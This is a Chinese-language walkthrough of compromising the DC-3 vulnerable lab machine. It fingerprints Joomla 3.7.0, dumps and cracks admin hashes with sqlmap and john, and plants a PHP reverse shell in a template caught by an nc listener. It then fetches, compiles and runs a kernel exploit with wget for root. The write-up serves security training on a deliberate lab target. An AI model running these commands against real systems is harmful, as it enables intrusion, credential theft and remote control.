# 前言

靶机：`DC-3`，IP地址为`192.168.10.10`

攻击：`kali`，IP地址为`192.168.10.2`

都采用`VMWare`，网卡为桥接模式

该靶机在启动时会报一个错误，我这里的错误提示是把`IDE 0:1`移动为`IDE 0:0`

 

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.10.1/24`



# 信息收集 

## 使用nmap扫描端口



## 网站信息探测

访问80端口默认界面，查看页面源代码也并未发现其他内容



使用`whatweb`尝试进行指纹探测

```shell
whatweb http://192.168.10.10
```


可以使用`gobuster、dirsearch、dirb、ffuf`等工具进行网站目录爆破



通过这些目录可以进一步确定是`joomla`的CMS，因为一般这种CMS如未修改，其默认就是这些目录构造

# 漏洞寻找

可以使用针对该CMS的工具`joomscan`，确定目标的版本以及管理员登录界面

```shell
joomscan -u http://192.168.10.10
```



确定版本后，尝试使用`searchsploit`搜索有无该版本的历史漏洞

```shell
searchsploit joomla 3.7.0
```



# 漏洞利用

## ①sqlmap对数据库的简单使用

查看这个`poc`，发现给出`sqlmap`的用法

```shell
sqlmsqlmap -u "http://192.168.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

使用上面语句，成功获取信息



再次对指定的数据库爆出表

```shell
 sqlmap -u "http://192.168.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb --tables --batch
```



再次针对表爆出元组

```shell
sqlmap -u "http://192.168.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" --columns 
```



爆出数据

```shell
sqlmap -u "http://192.168.10.10/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" -C username,password --dump
```



把密码复制到一个文件`hash`中，然后使用`john`进行爆破，解出密码为 `snoopy`

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt 
```



## ②反弹shell的利用点

然后使用这个用户名`admin`和密码`snoopy`登录网站的后台管理界面`/administrator`



成功登录，测试功能点，寻找利用点

找了一圈，并测试，发现对于扩展中的主题模块方面，有明显的`php`代码，并且支持修改其中的`php`文件内容





那么尝试把`kali`中自带的`php`反弹`shell`代码复制到这里，并进行保存

`kali`中该文件位置在`/usr/share/webshells/php/php-reverse-shell.php`

修改其中的`ip`为`kali`的地址即可，端口可采用默认的



然后先在`kali`中使用`nc`开启监听，来获取连接

```shell
nc -lvvp 1234
```

之后在浏览器中访问地址`http://192.168.10.10/templates/beez3`，该位置是放置`beez3`的，并且因为修改的是`index.php`，所以默认就会直接访问，然后触发插入进去的代码，导致反弹



使用`dpkg`命令测试靶机安装了那个版本的`python`，以方便获取一个交互式的界面

```shell
dpkg -l | grep python
```

确定版本为`pyhton3`，使用命令获取交互式界面

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



# 提权

在使用`find`寻找具有SUID权限的文件时，并未发现什么内容，有`sudo`，但是需要密码

```shell
find / -type f -perm -u=s 2>/dev/null
```

再次收集靶机内的信息，收集系统方面的信息

```shell
uname -r 		#查看系统内核版本
cat /etc/issue	#查看系统版本
cat /ect/os-releae		#查看系统相关信息
```



使用`searchsploit`寻找系统方面的漏洞，是否对应其版本，发现确实有，那么测试是否可行

```shell
searchsploit linux 4.4.0-21 -t -s
```



为什么直接使用这个，是因为这里经过筛选，首先就是内核版本范围，筛选出一部分

然后我刚开始也是严格根据版本去搜索的，但是发现`netfilter`是无法成功，然后因为这里是使用`nc`获取的`shell`，并且并非使用`msf`生成的`shell`，所以这里对于`msf`的一些，暂时不去查看。

最终确定这个包含版本信息`4.4`中所有版本，可能性最大，然后进行测试

使用`locate`定位到该`c`文本的位置，然后把查看文本中的内容

> [!NOTE]
>
> 一定要看文本内容


```shell
locate 39772.txt
```

该文本在讲述该漏洞的验证以及如何确定漏洞存在，总之很多，感兴趣可以自己去看看

在文本最后提供了`exp`的下载`https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip`


在`kali`中下载该文件，然后这里为了方便，打算在靶机上进行解压等操作，一般不会这样的，一般都是在`kali`中先解压，然后把相关文件进行一个处理。

确定靶机有无条件，发现可以下载，编译，解压



在`kali`中使用`python3`开启简易的`http`服务，并且在压缩包所在目录

```shell
python3 -m http.server 8888
```

这里因为图片比较长，并且都是解压操作，都很简单，所以就放命令了

```shell
#全是在靶机内执行的
cd /tmp
wget http://192.168.10.2:8888/39772.zip

unzip 39772.zip
cd 39772	#解压后的目录
tar -xvf exploit.tar	#解压后目录中的tar包再解压

cd ebpf_mapfd_doubleput_exploit		#tar解压后的目录

#下面按照文本中给出的提示进行操作即可
bash compile.sh
chmod +x doubleput
./doubleput
```



查看`flag`

